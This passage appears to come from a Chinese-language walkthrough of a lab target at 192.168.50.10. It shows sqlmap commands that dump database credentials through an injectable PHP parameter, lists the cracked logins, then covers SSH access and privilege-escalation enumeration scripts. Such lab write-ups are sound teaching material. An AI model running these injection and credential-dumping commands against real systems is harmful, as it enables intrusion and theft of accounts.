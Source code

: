 [![](assets/1704158282-123c0bec2cbea57b68d9550d23463a7a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010618-6ab1d304-a5a3-1.png)

<3> 使用 sqlmap 跑一遍，方便拿到更多信息。因为过滤了单引号，可以尝试调高探测等级。

```plain
sqlmap -u "http://192.168.50.10/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user"  --level=3 --risk=3 -D jabcd0cs -T odm_user -C username,password --dump
sqlmap -u "http://192.168.50.10/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user"  --level=3 --risk=3 --current-user
sqlmap -u "http://192.168.50.10/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user"  --level=3 --risk=3 --is-dba
```

> root@localhost，DBA 权限  
> 从 jabcd0cs.odm\_user 获取到以下用户凭证信息（需 md5 解密）：webmin:webmin1980 guest:guest  
> 从 mysql.user 获取到以下用户凭证信息：root:toor phpmyadmin:toor drupal7:toor

# 立足点 1：shell as user1（ssh）

既然从数据库拿到了登录凭据，则尝试进行 SSH，使用 `webmin:webmin1980` 进行 ssh 登录成功。拿到初始访问权限。

```plain
ssh webmin@192.168.50.10
```

# 0x05 提权信息收集、漏洞探针

`LinEnum.sh` 脚本自动执行提权过程中可能用到的几十条命令并整理输出，有关键的发现会以黄色标题突出显示。使用`linux-exploit-suggester.sh`脚本进行漏洞探针

```plain
scp LinEnum.sh webmin@192.168.50.10:/tmp

./LinEnum.sh -r linenum_info -e /tmp/ -t
./linuxprivchecker.py -w -o linuxprivchecker.log
./linux-exploit-suggester.sh -g

//文件/home/webmin/post.tar.gz
tar -zxvf post.tar.gz
file post.tar.gz
binwalk post.tar.gz
```
